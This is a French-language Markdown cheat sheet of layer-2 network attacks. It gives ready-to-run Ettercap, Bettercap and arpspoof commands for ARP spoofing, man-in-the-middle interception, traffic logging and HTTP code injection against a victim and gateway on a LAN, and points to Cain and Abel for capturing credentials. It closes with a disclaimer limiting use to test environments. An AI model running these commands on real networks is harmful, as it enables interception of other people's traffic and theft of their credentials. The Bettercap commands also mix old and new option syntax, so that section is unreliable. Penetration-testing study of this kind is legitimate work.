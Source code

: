 # Couche 2 (Liaison) – Attaques et Outils

**Version Testée :**
- Ettercap 0.8.x
- Bettercap 2.x
- Arpspoof (dsniff)
- Cain and Abel (Windows)

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Liaison du modèle OSI. La couche 2 gère le contrôle d’accès au média et la transmission des trames sur le réseau local.  
Les attaques typiques incluent le spoofing ARP, les attaques MITM (Man-In-The-Middle) et l’injection de paquets.  
Le script automatisé analysera ce fichier pour :
- Lister les outils disponibles (sections marquées par **"### Outil:"**),
- Afficher, pour chaque outil, les attaques possibles (sections marquées par **"#### Attaque:"**),
- Proposer les commandes associées pour chaque attaque (commandes présentées dans des blocs de code sous **"###### Commande:"** avec une section "Détails :").

Vous pourrez enrichir ce fichier ultérieurement sans modifier le script.

---

### Outil: Ettercap
**Description :**  
Ettercap est un outil puissant pour l'interception de trafic et l'exécution d'attaques MITM par ARP spoofing. Il permet de capturer, modifier et injecter du trafic réseau en temps réel.

#### Attaque: ARP Spoofing / MITM
*Détails de l'attaque :*  
Positionner l'attaquant entre la victime et la passerelle pour intercepter le trafic réseau.
##### Commandes Clés
**Commande: Lancer Ettercap en mode texte**
```bash
ettercap -T
```
Détails :
- Utilisation en mode texte pour l'interception.

**Commande: ARP Spoofing ciblé**
```bash
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.2//
```
Détails :
- Cibler la passerelle (192.168.1.1) et la victime (192.168.1.2).

**Commande: Sniffer et logger**
```bash
ettercap -T -M arp -i eth0 -L logfile
```
Détails :
- Enregistrer le trafic sur l'interface eth0.

#### Attaque: Injection de paquets HTTP
*Détails de l'attaque :*  
Modifier en temps réel le trafic HTTP non chiffré pour injecter du code malveillant.
##### Commandes Clés
**Commande: Injection de scripts HTTP**
```bash
ettercap -T -M arp:remote -i eth0 -F filter.ec
```
Détails :
- Utilise un fichier de filtre (filter.ec) pour modifier le trafic HTTP.

---

### Outil: Bettercap
**Description :**  
Bettercap est un framework moderne de MITM et d'analyse réseau, offrant une interface web et des modules extensibles pour diverses attaques sur le réseau local.

#### Attaque: ARP Spoofing avancé
*Détails de l'attaque :*  
Manipuler les tables ARP pour rediriger le trafic d'une cible vers l'attaquant.
##### Commandes Clés
**Commande: Lancer Bettercap en mode interactif**
```bash
bettercap -I eth0
```
Détails :
- Utilisation de l'interface eth0.

**Commande: Exécuter un caplet ARP spoofing**
```bash
bettercap -X -caplet arp.spoof
```
Détails :
- Utilise le caplet "arp.spoof" pour lancer l'attaque.

#### Attaque: Sniffing de paquets
*Détails de l'attaque :*  
Capturer et analyser le trafic réseau pour détecter des vulnérabilités ou informations sensibles.
##### Commandes Clés
**Commande: Capture de paquets en temps réel**
```bash
bettercap -X -I eth0
```
Détails :
- Affichage en temps réel des paquets.

---

### Outil: Arpspoof (dsniff)
**Description :**  
Arpspoof, issu du paquet dsniff, est un outil simple pour effectuer du spoofing ARP et détourner le trafic dans un LAN.

#### Attaque: Détournement ARP simple
*Détails de l'attaque :*  
Rediriger le trafic réseau d'une cible en falsifiant les réponses ARP.
##### Commandes Clés
**Commande: Spoofing vers la cible**
```bash
arpspoof -i eth0 -t 192.168.1.2 192.168.1.1
```
Détails :
- Cible : 192.168.1.2, passerelle : 192.168.1.1.

**Commande: Spoofing vers la passerelle**
```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.2
```
Détails :
- Inverse la cible pour rediriger le trafic dans les deux sens.

---

### Outil: Cain and Abel
**Description :**  
Cain and Abel est un outil de récupération de mots de passe pour Windows, qui inclut des fonctionnalités d'ARP spoofing et de capture de trafic (interface graphique).

#### Attaque: ARP Spoofing et capture d'identifiants
*Détails de l'attaque :*  
Utiliser Cain and Abel pour réaliser du spoofing ARP et récupérer des informations sensibles via l'interface graphique.
##### Commandes Clés
**Commande: Lancer Cain and Abel**
```bash
# Démarrer Cain and Abel via l'interface Windows.
```
Détails :
- Utiliser l'interface graphique pour lancer l'attaque et récupérer les identifiants.

---

## Précautions Légales & Disclaimer
**Attention :**  
L'utilisation de ces outils et commandes doit être réalisée dans un cadre légal et exclusivement en environnement de test. Toute utilisation malveillante est strictement interdite.

---

## Références & Ressources
- [Ettercap Officiel](https://www.ettercap-project.org/)
- [Bettercap Documentation](https://www.bettercap.org/)
- [dsniff et Arpspoof](https://www.monkey.org/~dugsong/dsniff/)
- [Cain and Abel (Wikipedia)](https://en.wikipedia.org/wiki/Cain_%26_Abel)
```
